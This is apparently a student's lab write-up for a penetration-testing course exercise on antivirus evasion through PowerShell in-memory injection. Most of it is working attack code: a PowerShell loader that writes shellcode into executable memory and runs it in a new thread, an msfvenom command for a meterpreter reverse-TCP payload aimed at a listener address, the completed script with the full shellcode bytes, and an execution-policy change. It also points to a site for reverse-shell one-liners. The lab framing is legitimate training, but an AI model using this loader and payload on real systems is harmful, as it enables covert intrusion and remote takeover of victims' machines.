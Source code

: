 # 17.3.4 Powershell In-Memory Injection

**1.  Review the code from the PowerShell script and ensure that you have a basic understanding of how it works.**

Posted below is the script we will be working with.
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script starts by importing a few functions from the kernel32.dll, specifically VirtualAlloc and CreateThread, as well as memset from msvcrt.dll. The functions will allow the allocation of memory, creation of an execution thread, and the writing of arbitrary data to said allocated memory. 

The next portion of the script (beginning at line 14), is where the memory for our payload will be allocated and written.

**2.  Get a meterpreter shell back to your Kali Linux machine using PowerShell.**

To start, we need to generate a meterpreter shell using MSFVenom:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.197 LPORT=9000 -f powershell`
We can then feed this into our initial script, setting the $sc variable to our generate payload. The final payload should look like the following:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0xf,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,0x10,0x57,0x8b,0x42,0x3c,0x1,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x1,0xd3,0x50,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xc5,0x68,0x2,0x0,0x23,0x28,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

We then need to adjust our Execution Policy to ensure we have the ability to run the script. We can check our permissions and adjust via `Get-ExecutionPolicy -Scope CurrentUser` and `Set-ExecutionPolicy Unrestricted -Scope CurrentUser` commands.
![[Pasted image 20220722201317.png]]


Once the policies are adjusted we can start MSFConsole and setup a listener using the "multi/handler" module. With our listener running we can then run the script on our Windows client and receive the reverse shell.
![[Pasted image 20220722201512.png]]


**3.  Attempt to get a reverse shell using a PowerShell one-liner rather than a script.[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/antivirus-evasion/bypassing-antivirus-detection/practice-powershell-in-memory-injection#fn1)**

For a one-liner we can use the very straightforward website "Revshells.com". This site allows us to quickly input an IP and port and select "Powershell #3 (base64)" and we will receive our one liner.

![[Pasted image 20220722203421.png]]

After setting up a listener we can run this command on our Windows client and receive our reverse connection.
![[Pasted image 20220722203527.png]]
![[Pasted image 20220722203535.png]]